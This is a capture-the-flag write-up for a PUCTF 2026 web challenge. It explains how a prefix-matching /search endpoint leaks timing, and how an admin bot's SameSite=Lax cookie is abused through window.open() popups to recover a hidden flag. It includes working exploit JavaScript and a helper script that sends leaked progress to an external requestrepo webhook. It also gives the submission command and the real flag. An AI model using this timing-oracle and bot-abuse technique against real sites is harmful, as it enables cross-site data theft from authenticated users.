


# Leaky CTF Platform Revenge Revenge Revenge

## Challenge Information

- Author: siunam
- Category: `Web Exploitation`
- Event: `PUCTF 2026`
- Final Flag: `PUCTF26{Please_do_not_use_an_unintended_solution_to_solve_this_challenge_xddd_GKg6IDs613TArSIsbhjxC7jEdig0P98L}`

# Overview

This challenge looks like a brute-force attack at first, because we recover the internal flag one hex character at a time. But the real issue is not brute force itself. The real vulnerability is a timing leak in `/search`. the server uses Python any() with prefix matching, so a correct prefix returns earlier while a wrong prefix scans much longer. The challenge then gives us exactly what we need to turn that bug into a full exploit. `/report` lets us run JavaScript in the admin bot, the bot carries an admin cookie for localhost, and SameSite=Lax allows window.open() to send that cookie during top-level navigation. By combining these pieces, we can measure the timing difference remotely, recover leakyctf{XXXXXXXX} one character at a time, and finally submit it to /submit_flag to get the real PUCTF26{...} flag.

From the source code, the attack flow is simple:

- `/report` gives us an admin bot browser
- the bot has an admin cookie for `localhost`
- `SameSite=Lax` lets `window.open()` send that cookie to `localhost`
- `/search` is a prefix oracle with a timing leak
- `/spam_flags` adds many fake flags and makes wrong guesses much slower
- timing is enough to recover `leakyctf{XXXXXXXX}`
- `/submit_flag` turns that internal flag into the final `PUCTF26{...}` flag

So the goal is to leak `leakyctf{XXXXXXXX}` one character at a time, then submit it.

# Initial Analysis

I started from `app/__init__.py` and looked at the routes:

```python
@app.route('/')
@app.route('/search')
@app.route('/spam_flags')
@app.route('/submit_flag')
@app.route('/report', methods=['GET'])
@app.route('/report', methods=['POST'])
```

- `/report` is the bot entry point
- `/search` is the protected endpoint
- `/spam_flags` makes the timing gap larger
- `/submit_flag` is where we exchange the internal flag for the real one

## Important values from `config.py`

```python
REAL_FLAG = getenv('FLAG', 'PUCTF26{fake_flag}')
ADMIN_SECRET = secrets.token_hex(16)
CORRECT_FLAG_PREFIX = 'leakyctf'
SIMUATION_FLAG_PREFIX = 'flag'
RANDOM_HEX_LENGTH = 4
CORRECT_FLAG = f'{CORRECT_FLAG_PREFIX}{{{secrets.token_hex(RANDOM_HEX_LENGTH)}}}'
MAX_SPAM_FLAGS_LENGTH = 100_000
```

- the real competition flag is `REAL_FLAG`
- the hidden internal flag is `CORRECT_FLAG`
- the internal flag format is `leakyctf{XXXXXXXX}`
- `secrets.token_hex(4)` gives 8 hex characters
- fake flags use the prefix `flag{...}`
- one call to `/spam_flags` can add up to `100000` fake flags

So we only need to recover 8 hex characters.

## Important values from `bot.py`

```python
await context.add_cookies([{
    'name': 'admin_secret',
    'value': ADMIN_SECRET,
    'domain': 'localhost',
    'path': '/',
    'httpOnly': True,
    'sameSite': 'Lax',
}])

await page.goto(urlToVisit, wait_until='load', timeout=10_000)
await asyncio.sleep(60)
```

- the bot has the correct admin cookie
- the cookie is only for `localhost`
- JavaScript cannot read the cookie because it is `httpOnly`
- `sameSite='Lax'` means top-level navigation can still send the cookie
- the bot stays on our page for 60 seconds

So the bot is an authenticated browser for `localhost`.

## Important logic from `__init__.py`

```python
flags = [config.CORRECT_FLAG]
```

- the real internal flag starts at index `0`
- later fake flags are appended to the back
- the order of the list is very important for the timing attack

```python
if request.cookies.get('admin_secret', '') != config.ADMIN_SECRET:
    return 'Access denied. Only admin can access this endpoint.', 403

flag = request.args.get('flag', '')
foundFlag = any(f for f in flags if f.startswith(flag))
```

- only the admin can use `/search`
- the input is used as a prefix, not a full flag
- `any(...)` stops as soon as it sees the first match

Because the real flag is stored at index `0`:

- correct prefix -> match happens immediately -> fast
- wrong prefix -> no early match -> scan many fake flags -> slow

```python
@limiter.limit('1 per second')
def spamFlags():
    size = request.args.get('size', type=int, default=10)
    ...
    for _ in range(size):
        flags.append(f'flag{{{secrets.token_hex(config.RANDOM_HEX_LENGTH)}}}')
```

- each call can add `100000` fake flags
- fake flags use `flag{...}`, not `leakyctf{...}`
- they never create an early match for our real prefix guesses
- they only make wrong guesses slower

```python
if flag != config.CORRECT_FLAG:
    return 'Incorrect flag', 400

return f'Correct! The real flag is: {config.REAL_FLAG}', 200
```

So we do not need to steal `REAL_FLAG` directly. We only need to recover `leakyctf{XXXXXXXX}` and submit it.

# Why the Timing Leak Works

The vulnerable line is:

```python
foundFlag = any(f for f in flags if f.startswith(flag))
```

Assume the real flag is at the front of the list:

```python
flags = [
    'leakyctf{76f1e2f7}',
    'flag{a1b2c3d4}',
    'flag{e5f6g7h8}',
    ...
]
```

If we test a correct prefix:

```python
'leakyctf{76f1e2f7}'.startswith('leakyctf{7}') == True
```

Then `any()` returns almost immediately.

If we test a wrong prefix:

```python
'leakyctf{76f1e2f7}'.startswith('leakyctf{a}') == False
```

Then the code continues scanning all fake flags.

So:

- correct prefix = fast
- wrong prefix = slow

After adding around 800000 fake flags, the time gap becomes large enough to measure from JavaScript.

# Why `window.open()` Works

The exploit page is on our own domain, but the admin cookie is for `localhost`.

Normal cross-site requests like these will not send the cookie:

- `fetch()`
- `XMLHttpRequest`
- `<iframe>`
- ``

But top-level navigation can still send the cookie because `SameSite=Lax`.

- `window.open()`
- normal link navigation
- GET form submission

So the exploit uses `window.open('http://localhost:5000/search?...')`.
That makes the bot send the admin cookie to `localhost` for us.

# Exploit Idea

The exploit page does four things:

1. spam fake flags
2. open `/search?flag=...` in many small popups
3. measure how long navigation takes
4. send progress to a webhook

The important part of the exploit is this timing function:

```javascript
async function measureTiming(prefix) {
    const url = `${TARGET}/search?flag=${encodeURIComponent(prefix)}`;
    const start = performance.now();

    return new Promise((resolve) => {
        const popup = window.open(url, '_blank', 'width=1,height=1,left=9999,top=9999');

        if (!popup) {
            resolve(-1);
            return;
        }

        const checkInterval = setInterval(() => {
            try {
                void popup.location.href;
            } catch (e) {
                clearInterval(checkInterval);
                const elapsed = performance.now() - start;
                setTimeout(() => {
                    try { popup.close(); } catch (e) {}
                    resolve(elapsed);
                }, 50);
            }
        }, 5);

        setTimeout(() => {
            clearInterval(checkInterval);
            try { popup.close(); } catch (e) {}
            resolve(performance.now() - start);
        }, 10000);
    });
}
```

The logic is simple:

- open the target page in a popup
- wait until it becomes cross-origin
- use elapsed time as a timing signal

Then for each flag position, test all hex characters:

```javascript
const CHARSET = "0123456789abcdef";
```

The fastest result is treated as the correct next character.

# Uploading the Exploit

I used `requestrepo.com` for two things:

- host the exploit page
- receive leaked progress from the bot

The helper script in this folder is `upload.py`.
It reads `exploit_revenge.html`, replaces `__EXFIL_URL__`, and uploads the file.

Current logic:

```python
repo = Requestrepo(token=TOKEN, admin_token="")
exfil_url = f"http://{repo.subdomain}.{repo.domain}/"
...
html = html.replace("__EXFIL_URL__", exfil_url)
repo.set_file("exploit.html", html.encode(), status_code=200)
```

Usage:

```bash
pip install requestrepo
python upload.py
```

Then it prints the final exploit URL.

# Remote Exploitation

After uploading the exploit, go to:

```text
http://chal.polyuctf.com:47692/report
```

Submit the exploit URL to the bot.

Then wait about one minute and check your requestrepo logs.
You should see requests like:



Once `finalFlag` appears, submit it:

```bash
curl http://chal.polyuctf.com:47213/submit_flag?flag=leakyctf{faaf6a09}
```

The server returns:

```text
Correct! The real flag is: PUCTF26{Please_do_not_use_an_unintended_solution_to_solve_this_challenge_xddd_GKg6IDs613TArSIsbhjxC7jEdig0P98L}
```



# Final Flag

```text
PUCTF26{Please_do_not_use_an_unintended_solution_to_solve_this_challenge_xddd_GKg6IDs613TArSIsbhjxC7jEdig0P98L}
```
